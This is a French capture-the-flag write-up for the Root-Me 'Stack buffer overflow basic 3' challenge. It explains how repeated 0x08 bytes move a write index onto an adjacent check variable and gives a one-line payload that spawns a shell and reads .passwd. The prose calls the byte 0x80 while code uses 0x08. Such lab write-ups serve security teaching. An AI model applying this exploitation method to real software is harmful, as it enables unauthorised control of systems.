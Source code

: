 ```yaml
---
title: "ELF x86 - Stack buffer overflow basic 3"
description: "Write up medium challenge "
pubDate: "May 12 2024"
image: /image/image4.jpg
categories:
  - rootme
tags:
  - app-system
  - buffer-overflow
badge: Pin
---
```


Le but de ce challenge est que check soit égale à 0xbffffabc afin d'ouvrir un shell.
'''c
if(check == 0xbffffabc)
        shell();
'''
Je ne risque pas de provoquer un débordement de buffer, car dès que count atteint 64, nous entrons dans une boucle infinie avec des messages "Oh no... Sorry !".\\
Cependant, il est remarquable qu'il est possible de décrémenter count en fournissant au programme un octet 0x80
'''c
 case 0x08:
  count--;
  printf("\b");
  break;
'''
De plus, dans le case default, la valeur de i est affectée à buffer[count]:
'''c
 default:
  buffer[count] = i;
  count++;
  break;
'''
Il est facile de voir la vulnérabilité : si nous parvenons à décrémenter count suffisamment pour que buffer[count] pointe sur check, nous pourrions écrire 0xbffffabc et ainsi prendre le contrôle du shell.\\
Comme la variable check est juste en dessous de buffer, en ajoutant 4 fois 0x80 (4 fois car sizeof(int) = 4), nous pourrions pointer sur check.

'''c
char buffer[64];
  int check;
  int i = 0;
  int count = 0;
'''
Je peux donc utiliser la commande ci-dessous pour décrémenter count 4 fois et écrire la séquence d'octets nécessaire pour passer la condition de check, en n'oubliant pas de terminer par ;cat pour maintenir le shell ouvert.
'''python
  $ (python -c 'print"\x08"*4+"\xbc\xfa\xff\xbf"';cat)|./ch16
'''
Ainsi, je peux afficher le contenu de .passwd et récupérer le flag.
